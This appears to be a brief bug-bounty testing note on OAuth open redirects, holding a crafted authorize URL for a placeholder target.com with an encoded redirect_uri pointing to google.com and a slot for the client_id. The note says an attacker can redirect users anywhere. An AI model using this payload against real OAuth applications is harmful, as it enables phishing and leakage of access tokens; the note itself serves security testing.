 If there is Oauth See for Open_Redirection

```
Url encoding is important, also change the client_id as per the application.

https://www.target.com/oauth/authorize?response_type=token&redirect_uri=http%3A%2F%2Fgoogle.com%3A80%2F&scope=profile&client_id=ADDTHECLIENTIDHERE
```
This url will redirect to google.com

attacker can redirect to any website.
